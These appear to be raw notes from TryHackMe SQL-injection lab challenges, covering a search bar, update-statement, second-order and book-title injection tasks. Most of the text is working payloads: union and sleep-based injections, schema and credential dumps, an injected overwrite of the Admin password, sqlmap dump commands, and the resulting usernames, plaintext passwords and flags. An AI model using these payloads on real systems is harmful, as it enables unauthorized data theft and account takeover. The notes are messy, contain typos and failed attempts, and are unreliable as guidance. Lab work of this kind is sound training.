 ### search bar

search for true item

search for wildcards

construct query

select ? from ? where ? like '%hammer%';

get db type

select ? from ? where ? like '%';-- %';

select ? from ? where ? like '%hammer' AND 1 = sleep(2);-- %';

select ?,?,? from ? where ? like '%hammer' union (select 1,2,3 from dual);-- %';

select ?,?,? from ? where ? like '%hammer' union (select TABLE_NAME, TABLE_SCHEMA, 3 FROM infromation_schema.tables);--

select ?,?,? from ? where ? like '%hammer' union (select column_name,2,3 from information_schema.columns where table_name = 'users');--

select ?,?,? from ? where ? like '%hammer' union (select uLogin, uHash, uType from users);--




Update statement


UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>

```sql
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```

```sql
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```



We can then continue by extract all the column names from the usertable:

```sql
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```



The subquery is using the group_concat() function to dump all the information simultaneously, and the || operator is "concatenate" - it joins together the strings of its operands (sqlite.org).
```
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
```


We can then update the password for the Admin user with the following code:
```
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -


sqlmap -u http://10.10.230.205:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
```


Vulnerable notes

create a user with the query
	
```	

' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''

'  union select 1,group_concat(password) from users'

sqlmap --tamper tamper/so-tamper.py --url http://10.10.1.134:5000/challenge4/signup --data "username=admin&password=asd" 
--second-url http://10.10.1.134:5000/challenge4/notes -p username --dbms=sqlite --technique=U --no-cast -T users --dump
```

THM{4644c7e157fd5498e7e4026c89650814}


Change Password

create new user admin' -- -:a

login, then change password :b

logout and log back in with admin:b

done,

THM{cd5c4f197d708fda06979f13d8081013}


### book title


SELECT * from books WHERE id = (SELECT id FROM books WHERE title like 'harr%')

') union select 1,2,3,4 from sqlite_master-- -


') union select 1,sqlite_version,3,4 from sqlite_master-- -

3.22.0


SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

') SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -   didn't work


') union select 1,tbl_name,3,4 from sqlite_master-- -


Title: books
3
Author: 4
Title: notes
3
Author: 4
Title: users
3
Author: 4


') UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -  DIDNT WORK


') union select 1,sql,3,4 from users-- -

sqlite3_column_name()

') union select 1,sqlite3_column_name(),3,4 from users-- -


tbl_name column


', title=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users')-- - 




') union select 1,sql,3,4 from sqlite_master where name ='users'-- -


Title: CREATE TABLE users ( id integer primary key, username text unique not null, password text not null )
3
Author: 4


') union select 1,username,password,4 from users-- -


Title: admin

THM{27f8f7ce3c05ca8d6553bc5948a89210}

Author: 4
Title: amanda

Summer2019!

Author: 4
Title: dev

asd

Author: 4
Title: emil

viking123

Author: 4
Title: maja

345m3io4hj3

Author: 4
Title: student

password

Author: 4




### Book 2


Query 1:
SELECT id FROM books WHERE title like '' union select sqlite_version()-- -%'
Query 2:
SELECT * FROM books WHERE id = '3.22.0'


'union select tbl_name from sqlite_master-- -

shows the table books

'union select tbl_name,tbl_name from sqlite_master-- -	 nothing


' union select sql from sqlite_master where name ='books'-- -

Query 1:
SELECT id FROM books WHERE title like '' union select sql from sqlite_master where name ='books'-- -%'
Query 2:
SELECT * FROM books WHERE id = 'CREATE TABLE books (
    id integer primary key,
    title text not null,
    description text not null,
    author text not null
)'

' union select 1,2,3,4 from books-- - nothing

' union select 1,tbl_name from sqlite_master-- -

' union select '-1''union select 1,tbl_name,3,4 from sqlite_master-- -


Title: books

3

Author: 4
Title: notes

3

Author: 4
Title: users

3

Author: 4



' union select '-1''

' union select '-1'' union select 1,sql,3,4 from sqlite_master where name = 'users'-- -

') union select 1,sql,3,4 from sqlite_master where name ='users'-- -



' union select '-1'' union select 1,username,password,4 from users-- -
